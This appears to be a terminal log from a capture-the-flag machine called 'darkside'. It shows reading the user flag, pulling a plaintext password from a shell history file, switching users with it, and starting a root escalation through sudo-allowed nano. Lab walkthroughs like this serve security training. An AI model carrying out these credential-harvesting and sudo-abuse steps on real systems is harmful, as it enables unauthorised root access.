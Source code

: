 ```bash
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
cat: /etc/cron.weekly: Is a directory
(remote) kevin@darkside:/home/kevin$ ls
user.txt
(remote) kevin@darkside:/home/kevin$ cat user.txt 
UnbelievableHumble
(remote) kevin@darkside:/home/kevin$ ls -la
total 32
drwxr-xr-x 3 kevin kevin 4096 Oct 30 08:41 .
drwxr-xr-x 4 root  root  4096 Oct 15 13:19 ..
lrwxrwxrwx 1 kevin kevin    9 Oct 30 08:41 .bash_history -> /dev/null
-rw-r--r-- 1 kevin kevin  220 Oct 15 12:54 .bash_logout
-rw-r--r-- 1 kevin kevin 3526 Oct 15 12:54 .bashrc
-rw-r--r-- 1 kevin kevin  113 Oct 15 13:37 .history
drwxr-xr-x 3 kevin kevin 4096 Oct 15 13:37 .local
-rw-r--r-- 1 kevin kevin  807 Oct 15 12:54 .profile
-rw-r--r-- 1 kevin kevin   19 Oct 15 13:38 user.txt
(remote) kevin@darkside:/home/kevin$ cat .history 
ls -al
hostname -I
echo "Congratulations on the OSCP Xerosec"
top
ps -faux
su rijaba
ILoveJabita
ls /home/rijaba
(remote) kevin@darkside:/home/kevin$ su rijaba
Password: 
rijaba@darkside:/home/kevin$ cd ../rijaba/
rijaba@darkside:~$ ls -la
total 20
drwxr-xr-x 2 rijaba rijaba 4096 Oct 30 08:41 .
drwxr-xr-x 4 root   root   4096 Oct 15 13:19 ..
lrwxrwxrwx 1 rijaba rijaba    9 Oct 30 08:41 .bash_history -> /dev/null
-rw-r--r-- 1 rijaba rijaba  220 Oct 15 13:19 .bash_logout
-rw-r--r-- 1 rijaba rijaba 3526 Oct 15 13:19 .bashrc
-rw-r--r-- 1 rijaba rijaba  807 Oct 15 13:19 .profile
rijaba@darkside:~$ sudo -l
Matching Defaults entries for rijaba on darkside:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano
rijaba@darkside:~$ sudo /usr/bin/nano
```
